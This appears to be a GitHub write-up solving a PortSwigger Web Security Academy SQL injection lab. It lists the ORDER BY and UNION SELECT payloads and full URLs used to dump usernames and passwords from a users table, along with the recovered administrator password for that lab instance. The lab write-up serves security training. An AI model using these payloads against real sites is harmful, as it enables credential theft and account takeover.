 ## LAB 3: SQL injection UNION attack, retrieving data from other tables
[SQL injection UNION attack, retrieving data from other tables](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables)  
**LEVEL**: PRACTITIONER  
**Description**: This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you need to combine some of the techniques you learned in previous labs.

The database contains a different table called `users`, with columns called `username` and `password`.

To solve the lab, perform an SQL injection `UNION` attack that retrieves all usernames and passwords, and use the information to log in as the `administrator` user.


## Solution
![LAB SCREENSHOT](./assets/lab3.1.PNG)

1. We need to determine the number of columns in the table
2. Determine which column is of type string/varchar
3. We need to fetch the `usernames` and `password`
4. Login with `administrator` user

### 1. Determine the number of columns in the table
Using `ORDER BY` we can determine the number of columns in the table. `ORDER BY` sorts a table by a given column index. We can increment the column number by one until we get an error which will tell us that the previous number is the number of columns in the table. 

Trying the following parameters
`' ORDER BY 1--`
`' ORDER BY 2--`
`' ORDER BY 3--` 

On the last paramter where we order by 3 we get the following error `Internal Server Error` which is a 500 internal error. This means the number of columns in the table is 2.

FULL URL: `https://acb71f2e1ee8c3c9c0d843a6003d0023.web-security-academy.net/filter?category=Gifts' ORDER BY 3--`


### 2. Searching for string/varchar column
We need to determine if a column is of type string/varchar this is because we want to be able to return the random string value provided to us by the site as one of the fields. We need to check each column for string/varchar compatibility by return the any string value for the column.

Trying the following parameters
`' UNION SELECT 'abc',NULL--`
`' UNION SELECT NULL'abc'--` 
`' UNION SELECT 'abc','def'--` - Both columns are of type strings/varchar


FULL URL: `https://acb71f2e1ee8c3c9c0d843a6003d0023.web-security-academy.net/filter?category=Gift' UNION SELECT 'abc','def'--`

### 3. Fetch the usernames & passwords
We can now use `UNION` attack to return the random value with the NULL fields.

`' UNION SELECT username, password from users--`

FULL URL: `https://acb71f2e1ee8c3c9c0d843a6003d0023.web-security-academy.net/filter?category=Gift' UNION SELECT username, password FROM users--`


![USERNAME & PASSWORDS SCREENSHOT](./assets/lab3.2.PNG)


### 4. Login as administrator
Login using `administrator`:`nqbbx1zpzvzy6uuczxjl`

![SOLVED LAB SCREENSHOT](./assets/lab3.3.PNG)


<!-- EOF -->